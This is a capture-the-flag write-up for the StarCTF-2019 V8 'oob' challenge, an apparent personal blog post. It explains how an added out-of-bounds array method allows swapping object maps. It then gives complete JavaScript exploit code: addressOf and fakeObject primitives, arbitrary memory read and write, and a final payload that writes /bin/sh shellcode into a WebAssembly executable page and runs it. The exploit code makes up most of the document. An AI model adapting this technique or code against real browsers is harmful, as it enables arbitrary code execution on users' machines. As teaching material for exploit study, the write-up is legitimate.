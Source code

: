 ```yaml
---
title: v8 oob
date: 2021-10-01 10:22:19
tags: v8
---
```

Curt write up for a classic challenge V8-OOB
<!--more-->
# What's OOB

OOB is a challenge on StarCTF-2019. It's a basic but classical one.

# Basic for JS

V8 is an open source engine for JavaScript which is implemented in Chrome.

There are several passages for setting up the environment, learning some basic knowledge for about the JavaScript and V8.

* V8 Compiling

[V8 env](https://mem2019.github.io/jekyll/update/2019/07/18/V8-Env-Config.html)

* object's structure

[Fast properties in V8](https://v8.dev/blog/fast-properties)

* oob
[oob](https://www.freebuf.com/vuls/203721.html)

# OOB

The challenge gives a diff file to implement a vulnerability. 

```bash
git apply < oob.diff
```

The diff file adds a vulnerable method. In short, `array.oob()` would return `array[array.length]`  and `array.oob(x)` would set `array[array.length] =x` . As we all know, the subscript of an n-element-array is [0,n-1]. There for we could read and write the data out of the array. In V8, according to the structure of the object, it's the map of the object. 

So what can we do if we could read and modify any object's map? Yes, we can confuse the type explaining of the object. If we take an array of floats as an array of objects, we could read the address of the object while taking an array of objects as an array of floats, it would create a fake object. That's what we could exploit from OOB. 

# `addressOf` and `fakeObject`

More specifically, we could use `oob()` to get the map of float array and object array.

```jsx
var obj = [a:"a"];
var obj_array = [obj];
var float_array = [1.1];
// map_of_obj_array & map_of_float_array 
var mo = obj_array.oob();
var mf = float_array.oob();
```

And we could modify the map of an object to perform `addressOf` and `fakeObject`.

```jsx
function addressOf(obj)
{
	obj_array[0] = obj;
	obj_array.oob(mf);
	let res = f2i(obj_array[0])-1n;
	obj_array.oob(mo);
	return res;
}
function fakeObject(address)
{
	float_array[0] = i2f(address+1n);
	float_array.oob(mo);
	let res = float_array[0];
	float_array.oob(mf);
	return res;
}
```

- i2f is a function converts big `unsigned int` to `float`.
- f2i is a function converts float to `big` unsigned `int`.
- you can find it in [cheatsheet](https://n132.github.io/cheatsheet/)

# `aar` and `aaw`

We could conduct `aar(arbitrary address read)` and `aaw(arbitrary address write)` functions from `addressOf` and `fakeObject`. By faking a float array and modifying its element.

```jsx
var tmp = [1.1,1.1,1.1,1.1];
var mt = tmp.oob();
var fake = [mt,i2f(0n),i2f(0n),i2f(0x400000000n),1.1,1.1];
var fake_obj = fakeObject(addressOf(fake)-0x30n);
function aar(address)
{
	fake[2] = i2f(address-0xfn);
	return f2i(fake_obj[0]);
}
function aaw(address,value)
{
	fake[2] = i2f(address-0xfn);
	fake_obj[0] = i2f(value);
}
```

Now we can read and write arbitrary address in the memory. 

# Get shell

1. search in the memory to find some useful address→ get libc-base address → hijack hooks → get shell
2.  find some useful address in array.map.constructor.code.
3. `Web asm`, [https://wasdk.github.io/WasmFiddle/](https://wasdk.github.io/WasmFiddle/), find the rwx page in `wasmInstance.exports.main()` and modify the content to run our shellcode.

# EXP(Wasm)

```jsx
var _b = new ArrayBuffer(16);
var _f = new Float64Array(_b);
var _i = new BigUint64Array(_b);
function f2i(f)
{
	_f[0] = f;
	return _i[0];
}
function i2f(i)
{
	_i[0] = i;
	return _f[0];
}
function hex(i)
{
	return "0x"+i.toString(16).padStart(16,"0");
}

var obj = {a:"a"};
var oa = [obj];
var fa = [1.1]
var mo = oa.oob();
var mf = fa.oob();

function addressOf(obj)
{
	oa[0]= obj;
	oa.oob(mf);
	let res = f2i(oa[0])-1n;
	oa.oob(mo);
	return res;
}
function fakeObj(address)
{
	fa[0] = i2f(address+1n);
	fa.oob(mo);
	let res = fa[0];
	fa.oob(mf);
	return res;
}
var c = [1.1,1.1,1.1,1.1]
var mc = c.oob(); 
var fake = [
mc,
i2f(0n),
i2f(0n),
i2f(0x1000000000n),
1.1,
2.2
]
var faker = fakeObj(addressOf(fake)-0x30n);


function aar(addr)
{
	fake[2] = i2f(addr-0xfn);
	return f2i(faker[0]);
}
function aaw(addr,val)
{
	fake[2] = i2f(addr-0xfn);
	faker[0] = i2f(val);
}


var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f= wasmInstance.exports.main;
var shell = [0xf631483bb0c03148n, 0x69622fbf48d23148n, 0x8948570068732f6en,0x50fe7n];
var tmp = aar(addressOf(f)+0x18n)-1n;
tmp = aar(tmp+8n)-1n;
tmp = aar(tmp+0x10n)-1n
tmp = aar(tmp+0x88n)
var buf =new ArrayBuffer(shell.length*8);
aaw(addressOf(buf)+0x20n,tmp);
var v =new DataView(buf);
for(let i=0;i<shell.length;i++){
	v.setFloat64(i*8,i2f(shell[i]),true);
}
f();

//%DebugPrint(f);
//%SystemBreak();
```